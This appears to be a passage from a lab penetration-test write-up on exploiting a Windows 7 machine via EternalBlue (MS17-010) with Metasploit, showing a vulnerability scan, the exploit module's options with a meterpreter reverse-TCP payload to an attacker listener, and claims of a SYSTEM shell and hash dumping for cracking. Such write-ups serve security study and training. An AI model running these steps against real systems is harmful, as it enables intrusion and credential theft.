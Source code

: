 ```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > use auxiliary/scanner/smb/smb_ms17_010
msf6 auxiliary(scanner/smb/smb_ms17_010) > set rhosts 10.0.2.8
rhosts => 10.0.2.8
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.0.2.8:445          - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 10.0.2.8:445          - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Exploitation

After confirming that our target is likely vulnerable to **eternalblue**, we used the ms17_010_eternalblue exploit from `metasploit` 
and we were able to pop a shell as the root user (**nt authority\system**). 

We were also able to dump the hashes on the machine, which we could take offline and crack with `John the ripper` or `hashcat`.

### Msfconsole: 

```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedd
                                             ed Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded S
                                             tandard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7
                                             target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.2.18        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



```
